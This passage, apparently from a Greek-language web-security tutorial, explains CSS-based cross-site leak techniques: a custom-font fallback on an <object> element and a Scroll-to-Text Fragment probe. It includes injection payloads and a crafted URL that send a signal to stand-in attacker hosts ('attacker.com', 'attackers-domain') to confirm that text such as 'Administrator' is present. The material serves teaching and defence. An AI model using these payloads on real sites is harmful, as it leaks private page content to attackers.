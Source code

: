 ```html
</head>
<body>
<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```
1. **Χρήση Προσαρμοσμένης Γραμματοσειράς**:

- Μια προσαρμοσμένη γραμματοσειρά ορίζεται χρησιμοποιώντας τον κανόνα `@font-face` μέσα σε ένα `<style>` tag στην ενότητα `<head>`.
- Η γραμματοσειρά ονομάζεται `poc` και ανακτάται από ένα εξωτερικό endpoint (`http://attacker.com/?leak`).
- Η ιδιότητα `unicode-range` έχει οριστεί σε `U+0041`, στοχεύοντας τον συγκεκριμένο χαρακτήρα Unicode 'A'.

2. **Στοιχείο Object με Κείμενο Εναλλακτικής**:
- Ένα στοιχείο `<object>` με `id="poc0"` δημιουργείται στην ενότητα `<body>`. Αυτό το στοιχείο προσπαθεί να φορτώσει μια πηγή από `http://192.168.0.1/favicon.ico`.
- Η `font-family` για αυτό το στοιχείο έχει οριστεί σε `'poc'`, όπως ορίζεται στην ενότητα `<style>`.
- Εάν η πηγή (`favicon.ico`) αποτύχει να φορτωθεί, το εναλλακτικό περιεχόμενο (το γράμμα 'A') μέσα στο tag `<object>` εμφανίζεται.
- Το εναλλακτικό περιεχόμενο ('A') θα αποδοθεί χρησιμοποιώντας την προσαρμοσμένη γραμματοσειρά `poc` εάν η εξωτερική πηγή δεν μπορεί να φορτωθεί.

### Στυλ Scroll-to-Text Fragment

Η **`:target`** ψευδο-κλάση χρησιμοποιείται για να επιλέξει ένα στοιχείο που στοχεύεται από ένα **URL fragment**, όπως καθορίζεται στην [CSS Selectors Level 4 specification](https://drafts.csswg.org/selectors-4/#the-target-pseudo). Είναι κρίσιμο να κατανοήσουμε ότι το `::target-text` δεν ταιριάζει με κανένα στοιχείο εκτός αν το κείμενο στοχεύεται ρητά από το fragment.

Ένα ζήτημα ασφαλείας προκύπτει όταν οι επιτιθέμενοι εκμεταλλεύονται τη δυνατότητα **Scroll-to-text** fragment, επιτρέποντάς τους να επιβεβαιώσουν την παρουσία συγκεκριμένου κειμένου σε μια ιστοσελίδα φορτώνοντας μια πηγή από τον διακομιστή τους μέσω HTML injection. Η μέθοδος περιλαμβάνει την έγχυση ενός κανόνα CSS όπως αυτός:
```css
:target::before {
content: url(target.png);
}
```
Σε τέτοιες περιπτώσεις, αν το κείμενο "Administrator" είναι παρόν στη σελίδα, το πόρο `target.png` ζητείται από τον διακομιστή, υποδεικνύοντας την παρουσία του κειμένου. Μια περίπτωση αυτής της επίθεσης μπορεί να εκτελεστεί μέσω μιας ειδικά κατασκευασμένης διεύθυνσης URL που ενσωματώνει το εισαγόμενο CSS μαζί με ένα τμήμα Scroll-to-text:
```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```
Εδώ, η επίθεση χειρίζεται την HTML injection για να μεταδώσει τον CSS κώδικα, στοχεύοντας στο συγκεκριμένο κείμενο "Administrator" μέσω του Scroll-to-text fragment (`#:~:text=Administrator`). Εάν το κείμενο βρεθεί, το υποδεικνυόμενο πόρο φορτώνεται, ακούσια σηματοδοτώντας την παρουσία του στον επιτιθέμενο.
